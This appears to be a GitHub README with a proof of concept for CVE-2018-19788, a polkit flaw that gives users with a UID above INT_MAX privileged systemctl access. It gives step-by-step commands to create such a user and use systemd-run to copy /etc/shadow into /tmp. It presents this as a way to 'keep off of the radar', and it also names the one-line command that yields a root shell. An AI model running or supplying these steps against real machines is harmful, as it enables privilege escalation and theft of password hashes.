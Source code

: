 # Leveraging CVE-2018-19788 to dump protected files without root shell

[CVE-2018-19788](https://gitlab.freedesktop.org/polkit/polkit/issues/74) is an issue where any user with a UID over INT_MAX (IE 4000000000) can run any systemctl command on a systemd linux box, such as Ubuntu. (There is already a writeup to gain a root shell found: [here](http://manivelsysad.blogspot.com/2018/12/low-privileged-user-with-uid-greater.html)). The main difference between this writeup and the full root shell writeup is that this will be run as the user itself instead of a root user (basically just a PoC to be honest)

# Getting /etc/shadow without executing a root shell

To get a root shell it's as simple as running `systemd-run -t /bin/bash` but if you want to keep off of the radar you can run simple commands to get privileged files without a terminal. Follow these steps to do it:

 - Add a user with a UID above INT_MAX:
   ```bash
   adduser --uid 4000000000 someusername
   ```
 - Switch into the user account:
   ```bash
   su someusername
   ```
 - Run the command for whatever file you would like (we'll use /etc/shadow for this):
   ```bash
   systemd-run bash -c 'cat /etc/shadow > /tmp/results_poc.txt'
   ```
 - Your file is now in `/tmp`:
   ```bash
   cat /tmp/results_poc.txt
   ```

# PoC video

[![to_video](https://user-images.githubusercontent.com/14183473/50110172-3476cd00-01ff-11e9-883c-1a9fb3e0361e.png)](https://vimeo.com/306879983)
